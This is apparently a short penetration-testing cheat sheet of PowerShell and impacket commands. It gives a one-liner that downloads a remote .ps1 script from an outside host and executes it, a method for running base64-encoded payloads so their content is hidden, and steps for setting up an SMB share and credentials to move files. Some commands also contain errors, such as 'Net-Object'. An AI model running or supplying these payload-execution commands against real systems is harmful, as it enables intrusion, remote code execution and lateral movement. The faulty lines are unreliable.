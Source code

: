 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```

### Execute command from base64

https://stackoverflow.com/questions/37996640/how-can-i-base64-encode-a-string-on-linux-so-it-matches-windows-unicode-getbyte

First convert your payload to utf16 little endian
```
echo test | iconv -t UTF-16LE
```

```
powershell -EncodedCommand <base64>
```

### Create smb share:

From impacket:
```
impacket-smbserver -username username -password password shareName shareDirectory -smb2support
```

From powershell:

```
New-PSDrive -name username -password password \\ip\shareName -Credential $cred -PSProvider "filesystem"
```

### Create credential

```
$pass = "password" | ConvertTo-SecureString -AsPlainText -Force
$cred = Net-Object System.Management.Automation.PsCredential('username', $pass)
```

### CD into share

```
cd \\<ip>\<share>
```
